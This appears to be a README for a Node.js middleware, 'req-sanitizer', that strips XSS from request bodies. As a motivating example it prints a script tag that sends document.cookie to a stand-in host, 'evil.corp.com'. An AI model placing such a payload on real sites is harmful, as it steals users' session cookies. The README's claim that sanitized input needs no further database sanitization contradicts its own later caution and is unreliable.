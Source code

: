 [![Pull requests](https://img.shields.io/badge/PRs-Welcome-brightgreen.svg)](https://github.com/peerquery/req-sanitizer/pulls)
[![Build status](https://travis-ci.org/peerquery/req-sanitizer.svg?branch=master)](https://travis-ci.org/peerquery/req-sanitizer)
[![Dep tracker](https://david-dm.org/peerquery/req-sanitizer.svg)](https://david-dm.org/peerquery/req-sanitizer)
[![Codebase license](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/peerquery/req-sanitizer/blob/master/LICENSE)

# req-sanitizer

## Sanitization is hard!

`Node.js` middleware to sanitize the `req.body` object. Did you know that you need to sanitize your content twice? One for the DB and one for HTML.

Did you also know that validating does not make your data secure? Validating data type would see this script get through:

`'<script>location.href='http://evil.corp.com?cookie='+document.cookie;</script>'`

That is a valid string. Lets say that is what someone entered into the name input field on your site's contact form. And you assumed that only the message `body` could contain XSS so you sanitized only that field!

When you rendered this user's info on your site, the above script would run! At the same time, let say you tried to individually sanitize all fields with a custom `sanitize()` module:

```javascript
var messageData = {
    name : sanitize(req.body.name),
    email : sanitize(req.body.email),
    message : sanitize(req.body.message),
    time : sanitize(req.body.time)
};

messageController.addMessage(req,res,messageData);
```

This would be too much bloat, without even mentioning that you would have to repeat this configuration for every single controller and API! What happens when you miss one of those fields? You are a toast. Save yourself hassle and automate this entire hassle with this module.

## Sanitization is required multiples times

Mongoose and MYSQL have their own sanitizing schemes, however implementing that does not make your content secure. For a secure system you need to sanitize all input into your DB.

Sanitizing is a must for all secure web apps. Unfortunately, for Node.js there has been very scanty **accurate** information on the topic. A lots of Node.js sanitization libraries are either outdated or no longer maintained. In the mean while, most sanitization efforts focus on sanitizing only a single object, such data from a certain endpoint, DB or API.

Read this detailed post to get the full concept as well as the severity of the issue: [5 Steps to Handling Untrusted Node.js Data](https://lockmedown.com/5-steps-handling-untrusted-node-js-data/)

## What this module does

When configured right, this module automated the entire process seamless. Requiring you to write only one line of code! This module is built on the blazingly fast and secure [XSS Filters](https://www.npmjs.com/package/xss-filters) library by [Yahoo](https://yahoo.github.io/secure-handlebars/xssfilters.html)!

## Installation

```
npm install --save req-sanitizer
```

## Usage

```javascript

var reqSanitizer = require('req-sanitizer');
Mount the middleware below the bodyParser() instantiations and above mounting of your routes

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(reqSanitizer()); // this line follows bodyParser() instantiations

```

**One liner**

```javascript

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(require('req-sanitizer')); // this line follows bodyParser() instantiations

```

### That is all!

All your `req.body` values are sanitized against XSS! You can stored them directly in the DB and display them directly on HTML without the need to sanitize them again.

All input from your APIs and POST methods are sanitized. However remember you still need to sanitize for the DB. At Peer Query we use [express-mongo-sanitize](https://npm.js.com/package/express-mongo-sanitize).

## Contribution is welcome.

I was inspired to build it after finding out that there was virtually no plug-and-play middleware for `Node.js` to sanitize the `req.body`. 
